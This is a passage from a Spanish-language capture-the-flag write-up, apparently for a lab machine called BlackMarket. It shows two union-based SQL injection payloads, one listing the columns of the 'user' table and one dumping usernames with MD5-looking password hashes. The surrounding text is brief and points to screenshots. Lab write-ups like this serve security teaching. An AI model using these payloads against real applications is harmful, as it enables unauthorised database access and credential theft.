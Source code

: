 Encontramos mejores cosas de la tabla `user`

```sql
=-1' union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema='BlackMarket' and table_name='user'-- -
```

![](/assets/images/vh-writeup-blackmarket/24.png)

Ahora podemos ver los usuarios con sus `hashes`

```sql
-1' union select 1,2,3,group_concat(username,0x3a,password),5,6,7 from BlackMarket.user-- -
```

Parece que estan en `MD5`

![](/assets/images/vh-writeup-blackmarket/25.png)
